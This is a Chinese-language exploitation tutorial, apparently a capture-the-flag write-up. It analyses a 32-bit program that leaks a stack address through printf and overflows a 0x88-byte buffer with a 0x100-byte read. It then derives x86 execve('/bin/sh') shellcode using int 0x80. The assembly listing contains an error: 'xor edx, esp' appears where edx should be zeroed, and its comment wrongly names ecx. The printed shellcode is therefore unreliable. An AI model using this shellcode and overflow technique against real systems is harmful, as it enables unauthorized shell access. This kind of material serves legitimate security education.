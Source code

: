 先调用了printf函数，格式化字符串为`"What's this:%p?\n"`，`%p`为ebp-0x88。打印出了局部变量的内存地址。

可以看到0x080484ac处call了read函数，指定buf为栈上ebp-0x88的位置，最多写入0x100个字节。这里显然是一个溢出点，因为存储数据的buf空间只有0x88个字节。

接下来便是利用这个函数，来getshell

### shellcode编写

这里打算通过系统调用(int 0x80)，调用execve函数，执行文件为/bin/sh

先说一下如何触发系统调用



首先需要在eax里指定要调用函数的**系统调用号**

然后放置调用该函数时传递的参数[(1)](#引用)

> 在x86系统上，`ebx`, `ecx`, `edx`, `esi`和`edi`按照顺序存放前五个参数。

然后执行`int 0x80`汇编指令，触发系统调用



接下来说一下如何调用execve函数

首先是调用号，一般可以在系统的`/usr/include/x86_64-linux-gnu/asm/`目录下可以找到，有一个unistd*.h文件

我这里的文件是unistd_32.h

查找execve的调用号，此处为**11**

```c
#define __NR_link 9
#define __NR_unlink 10
#define __NR_execve 11
#define __NR_chdir 12
#define __NR_time 13
```

一般来讲这个调用号在不同的发行版是一样的



然后是参数

exevce的参数可以用`man execve`来查看

>int execve(const char *filename, char *const argv[],
>                  char *const envp[]);

> execve()  executes  the program pointed to by filename.
>
> argv is an array of argument strings passed to the new program.
>
> envp is an array of strings, conventionally of the form key=value, which are passed as environment to the new program.

为了达到getshell目的，调用函数的代码为`execve("/bin/sh", 指向空指针, 指向空指针);`

汇编代码是

```
xor eax, eax
push eax        //表示字符串结束的\x00
push 0x68732f6e //存储字符串  倒序的n/sh
push 0x69622f2f //存储字符串  倒序的//bi
mov ebx, esp    //把字符串的指针存储到ebx，即第一个参数
push eax
mov ecx, esp    //将ecx指向空指针，即第二个参数
xor edx, esp    //将ecx指向空指针，即第三个参数
mov al, 11     //放置系统调用号, 如果mov到eax则会多移动几个\x00，会产生截断，所以mov到al中
int 0x80
```
